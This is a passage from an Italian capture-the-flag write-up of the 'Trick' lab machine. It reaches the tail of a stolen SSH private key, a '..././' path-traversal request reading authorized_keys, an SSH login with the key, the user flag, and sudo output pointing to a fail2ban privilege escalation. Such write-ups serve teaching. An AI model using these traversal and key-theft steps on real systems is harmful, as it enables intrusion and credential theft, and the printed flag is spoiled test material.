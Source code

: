 ```
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Perfetto vediamo ora l'*authorized_keys* per vedere dove dobbiamo connetterci con ssh:
`GET /index.php?page=..././..././..././..././..././..././home/michael/.ssh/authorized_keys`

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick
```

Salviamo la chiave in un file, cambiamo i permessi (600) e facciamo il login con ssh:

```shell
└─$ ssh -i key.priv michael@trick
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$
```

Nella home directory abbiamo la user flag: `8067e13e5e14570f80d24dd75b7949d8`

## 6. Privilege Escalation
Nei meccanicismi per tale sezione, interessante è l'output prodotto dal comando *sudo -l*:

```shell 
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart       
```
